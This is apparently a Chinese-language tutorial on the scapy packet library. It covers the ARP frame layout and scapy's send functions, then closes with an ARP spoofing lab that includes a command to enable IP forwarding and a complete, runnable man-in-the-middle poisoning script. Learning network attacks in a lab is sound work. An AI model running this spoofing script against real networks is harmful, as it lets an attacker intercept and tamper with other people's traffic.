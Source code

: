 # python scapy库


## 基础知识
####  ARP帧结构
![arp_packet_struct.png](./imgs/arp_packet_struct.png)
>以太网头部  
>>以太网目的地址： 6字节（48位）的目的地MAC地址数值  
>>以太网源地址：6字节报文发送者的MAC地址数值  
>>帧类型：表示后面的是什么数据。ARP报文为0x806  
>  
>ARP报文
>>硬件类型：表示硬件地址的类型，ARP报文中使用1，代表MAC地址  
>>协议类型：表示要映射的协议地址类型。0x0800即表示IP地址。  
>>硬件地址长度：地址长度，单位为字节。硬件地址长度为6字节  
>>协议地址长度：地址长度，单位为字节。IP地址长度为4字节  
>>op(opration code)：操作码。1表示ARP请求报文，2表示ARP回应报文。RARP的请求和回应分别为3和4  
>>发送端以太网地址：发送者的以太网地址  
>>发送端IP地址：发送者的IP地址  
>>目的以太网地址： 接收ARP包的主机。当报文为请求的时候，可以不填
>>目的IP地址：接收ARP包的主机的IP地址。当报文为请求的时候，为被查询者的IP地址  

>ARP请求填充：
>>以太网头部：以太网目的地址=广播地址，以太网源地址=本机MAC地址  
>>
>>ARP报文：op=1，发送端以太网地址=本机MAC地址，发送端IP地址=本机IP地址， 目的以太网地址=空， 目的IP地址=想要查询的IP地址   
>
>ARP回应填充：
>>以太网头部：以太网目的地址=广播地址，以太网源地址=本机MAC地址   
>>
>>ARP报文：op=2，发送端以太网地址=告诉查询者的MAC地址，也就是本机MAC地址，发送端IP地址=查询者查询的IP地址，也就是本机IP地址， 目的以太网地址=查询者的MAC地址， 目的IP地址=查询者的IP地址  
>
>接收ARP回应报文的主机会将发送端以太网地址和发送端IP地址存入ARP缓存表中

#### scapy库  
使用scapy库可以构造基于OSI参考模型的数据包，常用的Layer有 Ether、IP、ARP()、UDP、TCP、UDP。这些协议的包如果不手动指定其中field的数值，scapy会自动根据环境进行指定。  
构造发送的包的时候，可以指定不只一个layer的包的数值。可以将多个layer的包的数值进行叠加:  
![](imgs/scapy_stackingLayers.png)




## scapy库的使用  
### 命名空间设定：from scapy.all import *
#### 发包  
函数：  
![](imgs/scapy_send_func.png)


常用函数：  
>send()发送网络层报文  (IP, ARP, etc.)   
>sr()发送网络层报文,并接收网络层报文  
>sr1()发送网络层报文，只接收第一个响应的网络层报文  
>sendp()发送链路层报文  (Ethernet, 802.3, etc.)  
>srp()发送链路层报文,并接收链路层报文  
>srp1()发送链路层报文，只接收第一个响应的报文  
>srloop()循环发送网络层报文，并打印结果  
>srploop()循环发送传输层报文，并打印结果  

指定发包接口:  
conf.iface="网卡名称"
#### 构造IP数据包
```
IP(dst=目标IP地址或主机名(会自动进行DNS解析))
```
#### 构造ARP数据包
```python
ARP(op=操作码, psrc=发送端IP地址字符串, hwsrc=发送端MAC地址字符串, pdst=目的IP地址字符串, hwdst=目的MAC地址字符串)
```
## ARP协议利用
攻击者通过构造ARP报文，可修改目标主机中的ARP动态表项。

#### ARP欺骗实战
网络拓扑：  
web服务器 192.168.1.10 :00:0c:29:12:c4:1e
受害者电脑 192.168.1.20 00:0c:29:8f:b6:a5
攻击者电脑 192.168.1.86 00:0c:29:ec:2e:d5  

攻击者：  
开启tcp转发  
\# echo "1" > /proc/sys/net/ipv4/ip_forward

python脚本
```python
#!/usr/bin/python2
#coding:utf-8

from scapy.all import *
import time

conf.iface="enp2s0f1"

victim = {
        "ip": "192.168.1.20",
        "mac": ""
        }

web_server = {
        "ip": "192.168.1.10",
        "mac": ""
        }

self = {
        "ip": "192.168.1.86",
        "mac": str(Ether().hwsrc)
        }

# ask web server's MAC address
web_server["mac"] = sr1(ARP(pdst=web_server['ip'])).hwsrc
print 'web服务器硬件地址：' + web_server['mac']

# ask victim's MAC address
victim["mac"] = sr1(ARP(pdst=victim['ip'])).hwsrc
print '受害者硬件地址：' + victim['mac']

# start attack
try:
    print "attacking..."
    while True:
        sendp(Ether(dst=victim['mac'])/ARP(op=2, psrc=web_server['ip'], hwsrc=self['mac'], pdst=victim['ip'], hwdst=victim['mac']))
        sendp(Ether(dst=web_server['mac'])/ARP(op=2,psrc=victim['ip'], hwsrc=self['mac'], pdst=web_server['ip'], hwdst=web_server['mac']))
        time.sleep(2)
except KeyboardInterrupt:
    print "restore default mac mapping..."
    for i in range(0, 5):
        sendp(Ether(dst=victim['mac'])/ARP(op=2, psrc=web_server['ip'], hwsrc=web_server['mac'], pdst=victim['ip'], hwdst=victim['mac']))
        sendp(Ether(dst=web_server['mac'])/ARP(op=2,psrc=victim['ip'], hwsrc=victim['mac'], pdst=web_server['ip'], hwdst=web_server['mac']))
        time.sleep(2)

```
